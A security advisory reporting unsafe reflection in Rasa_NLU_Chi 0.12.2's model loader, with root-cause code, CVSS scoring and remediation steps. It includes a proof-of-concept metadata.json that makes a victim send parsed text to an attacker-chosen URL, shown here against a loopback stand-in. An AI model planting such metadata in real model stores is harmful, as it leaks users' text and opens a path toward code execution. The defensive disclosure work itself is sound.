








# Rasa_NLU_Chi 0.12.2 — Unsafe Reflection (CWE-470) in Model Metadata `class` Resolution

## Summary

crownpku/Rasa_NLU_Chi (the Chinese fork of Rasa NLU) at version 0.12.2, commit
`f995c06e5aee5b6f68ea877c1a271667357a1c68` (current `master` HEAD, dated 2023-11-09),
is affected by an unsafe-reflection vulnerability in the way persisted models are
loaded. `Interpreter.load(model_dir)` takes every `pipeline[i].class` entry from the
model's `metadata.json` as a Python dotted path and resolves it with
`importlib.import_module()` + `getattr()` **without any allowlist**. A model directory
whose only artifact is `metadata.json` therefore makes the victim process import and
instantiate an attacker-chosen class; with the stock `DucklingHTTPExtractor` component
this sends the victim's parsed text to an attacker-chosen URL. No `.py` file, pickle or
plugin travels with the model — all capability is drawn from components already
installed in the victim environment.

## Affected Product

| Field | Value |
|---|---|
| Vendor | crownpku (fork of Rasa NLU by Rasa Technologies GmbH) |
| Product | Rasa_NLU_Chi (Chinese Rasa NLU) |
| Affected versions | 0.12.2 (`rasa_nlu/version.py`), git commit `f995c06e5aee5b6f68ea877c1a271667357a1c68` = `master` HEAD (2023-11-09; still HEAD as of 2026-10-06). Older revisions that ship the same `class_from_module_path` fallback are presumed affected. |
| Component | `rasa_nlu/utils/__init__.py:163-176` `class_from_module_path()`, reached from `rasa_nlu/registry.py:99-115` `get_component_class()` during `Interpreter.load()` |
| Platform | OS-independent (verified on Windows 11 x64, CPython 3.12.10) |
| Vulnerability type | CWE-470: Use of Externally-Controlled Input to Select Classes or Code ("Unsafe Reflection"); related: CWE-502 (untrusted model metadata consumption) |

## Root Cause

**Location:** `rasa_nlu/utils/__init__.py:163-176` (`class_from_module_path`), reached
from `rasa_nlu/registry.py:99-115` (`get_component_class`).

`get_component_class()` first consults the product's own allowlist registry. If the
name is not registered — which is exactly the case for an attacker-chosen dotted path —
it falls back to a **path-based import with no restriction**:

```python
# rasa_nlu/registry.py:99-115 (fallback is the defect enabler)
def get_component_class(component_name):
    """Resolve component name to a registered components class."""
    if component_name not in registered_components:
        try:
            return utils.class_from_module_path(component_name)   # <-- attacker string
```

```python
# rasa_nlu/utils/__init__.py:163-176 — no allowlist anywhere
def class_from_module_path(module_path):
    """Given the module name and path of a class, tries to retrieve the class.

    The loaded class can be used to instantiate new objects. """
    import importlib

    # load the module, will raise ImportError if module cannot be loaded
    if "." in module_path:
        module_name, _, class_name = module_path.rpartition('.')
        m = importlib.import_module(module_name)          # <-- imports ANY module
        # get the class, will raise AttributeError if class cannot be found
        return getattr(m, class_name)
    else:
        return globals()[module_path]
```

**Why the input is attacker-controlled.** A persisted model directory is consumed as
follows (all quoted from the pinned commit):

1. `rasa_nlu/model.py:61-71` — `Metadata.load()` reads `metadata.json` from the model
   directory as-is (JSON, attacker-authored).
2. `rasa_nlu/model.py:83-87` — `Metadata.component_classes` returns
   `[c.get("class") for c in pipeline]`, i.e. the attacker's strings.
3. `rasa_nlu/model.py:267-306` — `Interpreter.load()` → `ensure_model_compatibility()`
   only checks `rasa_nlu_version >= 0.12.0a2` (any string the attacker writes), then
   `components.validate_requirements()` — which itself calls `get_component_class()`,
   so the dynamic import already happens here — and finally
   `component_builder.load_component()` per class.
4. `rasa_nlu/components.py:206-227` — `Component.load()` instantiates
   `cls(model_metadata.for_component(cls.name))`, handing the attacker-controlled
   component dict (`url`, `locale`, ...) straight to the constructor.
5. `rasa_nlu/extractors/duckling_http_extractor.py` — `process()` POSTs
   `{text, locale}` to `component_config["url"] + "/parse"`. Errors are swallowed, so
   the victim pipeline keeps working after the request has been issued.

Importing an attacker-chosen module executes its module-level code in the victim
process; the only thing an attacker needs is that the dotted path resolves in the
victim environment (any module already installed, or any `.py` they can plant on
`sys.path`).

## Proof of Concept

### Prerequisites

- Python 3.x with the pinned Rasa_NLU_Chi importable (the capture below used
  CPython 3.12.10 on Windows 11 x64 with `rasa_nlu` installed from the pinned commit;
  `poc/Dockerfile` in the disclosure kit provides the era-typical CPython 3.7 variant).
- The victim habit in question: `Interpreter.load(MODEL).parse(TEXT)` on a model
  directory received from someone else (shared model store, retraining pipeline,
  upload).
- No privileges, no config change; the model directory contains **only**
  `metadata.json`.

### Steps to Reproduce

1. Environment: Python 3.12.10; source pinned at the vulnerable commit
   (`git rev-parse HEAD` = `f995c06e5aee5b6f68ea877c1a271667357a1c68`).



2. Build the positive and negative model directories with `make_poc.py`. The two
   `metadata.json` files are identical except for `pipeline[0].class`; each model
   directory contains nothing else.



![Programmatic proof: only pipeline[0].class differs; everything else identical: True](screenshots/03-single-field-diff.png)

3. The resolved code in the pinned source — `class_from_module_path()` at
   `rasa_nlu/utils/__init__.py:163-176`, no allowlist:



4. Start a plain HTTP listener on the URL embedded in the metadata
   (`python -m http.server 17766`, log redirected to `httpd.log`); the log is empty
   before any victim activity (`Length 0`).



5. **Negative control** — load the benign model (only `class` differs) and parse.
   The parse succeeds; the listener log is still 0 bytes: no request.



6. **Positive** — `Interpreter.load("model_pos").parse("meeting next wednesday at 3pm")`
   in the victim process. The model loads (the attacker string is silently resolved
   through `class_from_module_path`), instantiation succeeds, and `parse()` returns
   normally.



7. The listener log now shows the request that the metadata-directed component issued,
   carrying the victim's text to the attacker-chosen URL:

```text
::ffff:127.0.0.1 - - [06/Oct/2026 02:23:49] code 501, message Unsupported method ('POST')
::ffff:127.0.0.1 - - [06/Oct/2026 02:23:49] "POST /parse HTTP/1.1" 501 -
```



8. Artifact check — each model directory contains exactly one file,
   `metadata.json` (280 / 275 bytes). Nothing else ships with the model.



### Expected vs Actual

- Expected: only component classes registered by the product (`registered_components`)
  can be instantiated from a persisted model; unknown `class` values are rejected.
- Actual: any dotted path that resolves in the victim environment is imported and
  instantiated; with the stock `DucklingHTTPExtractor` the victim sends
  `POST {text, locale}` to the URL embedded in `metadata.json`, and the pipeline keeps
  serving normally afterwards (the failed HTTP exchange is logged and swallowed).

### Sanitized PoC input

```json
{
  "language": "zh",
  "rasa_nlu_version": "0.12.2",
  "pipeline": [
    {
      "name": "ner_duckling_http",
      "url": "http://127.0.0.1:17766",
      "locale": "zh_CN",
      "class": "rasa_nlu.extractors.duckling_http_extractor.DucklingHTTPExtractor"
    }
  ]
}
```

(`127.0.0.1:17766` is the demonstrator's loopback listener; in a real attack it is any
URL the attacker controls. The negative control replaces only the `class` value with
`rasa_nlu.tokenizers.whitespace_tokenizer.WhitespaceTokenizer`.)

**Validation boundary, stated honestly.** The tracing PoC deliberately uses a
component that ships with the product, so the demonstration does not depend on any
gadget file riding along with the model. What was executed and verified: (a) the
unguarded `importlib.import_module()` + `getattr()` on the metadata-supplied string,
(b) instantiation of the attacker-chosen class with attacker-chosen config, and (c)
the resulting victim-issued `POST /parse` carrying the parsed text. Arbitrary code
execution through this same path (importing a module whose import executes code) was
**not** executed in this report; it is the structural consequence of the missing
allowlist and requires an import-sensitive or attacker-writable module in the victim
environment.

## Impact

- Confidentiality: **High** — demonstrated: the victim's parsed text is transmitted to
  an attacker-chosen URL; structurally: arbitrary module import in the victim process
  exposes everything the process can read once any gadget exists.
- Integrity: **High** — attacker-chosen class is instantiated inside the victim
  pipeline with attacker-chosen configuration; with an import gadget this is
  arbitrary code execution in the victim process.
- Availability: **High** — code execution or a pipeline pointed at hostile/unresponsive
  infrastructure; a malformed choice of class aborts model loading.
- Scope: model-loading path of an NLU product; typical delivery channels are shared
  model stores, retraining pipelines and user-supplied model directories.

## Attack Vector and Severity (CVSS v3.1)

| Metric | Value | Rationale |
|---|---|---|
| Attack Vector | L (Local) | The vulnerable component is a Python library, not bound to a network stack; the attacker delivers a model directory that the victim application later loads. If the artifact-delivery channel (model store / upload endpoint / training pipeline) is treated as network-facing, AV:N applies and the score becomes 8.8. |
| Attack Complexity | L | No race, no mitigation to bypass: write `metadata.json`, wait for a load. |
| Privileges Required | N | The loader needs no credentials; the attacker needs no account on the victim host — only the ability to supply the model artifact. |
| User Interaction | R | A human or pipeline step must point the victim application at the malicious model directory. |
| Scope | U | Impact stays in the victim process's security context. |
| Confidentiality | H | Parsed user text exfiltration demonstrated; arbitrary import potential. |
| Integrity | H | Attacker-chosen object construction in-process; code-execution potential. |
| Availability | H | Code execution or pipeline failure. |

```
Score: 7.8 (High)
Vector: CVSS:3.1/AV:L/AC:L/PR:N/UI:R/S:U/C:H/I:H/A:H
(AV:N variant: CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:H/I:H/A:H → 8.8 High)
```

Assumption note: the primary vector treats the library as local code with the model as
the delivered artifact, consistent with how equivalent "load untrusted artifact"
weaknesses in Python ML tooling are scored; the network-facing variant is given for
products that accept model uploads.

## Remediation

Resolve components through the allowlist that already exists instead of importing
metadata strings:

1. In `rasa_nlu/registry.py:99-115`, remove the `utils.class_from_module_path()`
   fallback (or restrict it to `rasa_nlu.`-prefixed modules whose class is also
   present in `registered_components`).
2. Reject pipeline entries whose `class` value is not in `registered_components` at
   load time (`Metadata.component_classes`) and log a warning for unknown keys.
3. At training time, persist the component *names* (not import paths) and compare them
   on load, so a model directory cannot select code at all.
4. Workaround until patched: only load model directories whose `metadata.json` has
   been reviewed, and run model loading in an isolated environment without outbound
   network access.

## Timeline

| Date | Event |
|---|---|
| 2026-10-06 | Vulnerability analyzed and verified against commit `f995c06e5aee…` (master HEAD) |
| 2026-10-06 | Disclosure kit prepared (`01` issue draft, `02` this report, `03` VulDB form, PoC + screenshots) |
| 2026-10-06 | Vendor notification [pending — repository has no published security channel; repo dormant since 2023-11] |
| 2026-10-06 | Fix released [pending / none] |

## References

- Source repository: https://github.com/crownpku/Rasa_NLU_Chi
- Pinned commit: https://github.com/crownpku/Rasa_NLU_Chi/commit/f995c06e5aee5b6f68ea877c1a271667357a1c68
- Vulnerable function: `rasa_nlu/utils/__init__.py` `class_from_module_path()`
- CWE-470: https://cwe.mitre.org/data/definitions/470.html
- CWE-502: https://cwe.mitre.org/data/definitions/502.html
- Vendor advisory: [none — repository publishes no security advisory]

## Disclaimer

This report is provided for defensive and coordination purposes. It contains no
ready-to-run exploit beyond the minimum reproduction information, and no sensitive
infrastructure details. Do not disclose it publicly before the maintainer has had a
reasonable window to fix the issue.

## Screenshot Checklist

Capture environment: Windows 11 x64 (build 26200), Windows Terminal + Windows
PowerShell 5.1, CPython 3.12.10 venv, rasa_nlu 0.12.2 installed from pinned commit
`f995c06e5aee…`. All nine screenshots are genuine terminal-window captures taken on
**2026-10-06**; every visible line is the real output of the command shown above it.

| File | Content |
|---|---|
| `screenshots/01-environment.png` | `python --version` (3.12.10) and `git -C src rev-parse HEAD` = pinned commit |
| `screenshots/02-models-built.png` | `make_poc.py` output: both `metadata.json` files written (negative visible in full) + `SHA256SUMS.txt` |
| `screenshots/03-single-field-diff.png` | `show_diff.py`: the two models differ only in `pipeline[0].class`; "everything else identical: True" |
| `screenshots/04-vulnerable-code.png` | Pinned source `rasa_nlu/utils/__init__.py:163-176` (`class_from_module_path`) printed with line numbers |
| `screenshots/05-listener-clean.png` | `http.server` started on 127.0.0.1:17766; `Get-Item httpd.log` → Length 0 |
| `screenshots/06-negative-no-request.png` | Negative model loaded and parsed; `httpd.log` still Length 0 — no request |
| `screenshots/07-exploit-run.png` | Victim run on `model_pos`: load + `parse()` complete normally |
| `screenshots/08-request-landed.png` | `type httpd.log`: `POST /parse HTTP/1.1` issued by the victim process to the metadata URL |
| `screenshots/09-artifacts-single-file.png` | `dir model_pos` / `dir model_neg`: each contains only `metadata.json` (280 / 275 bytes) |
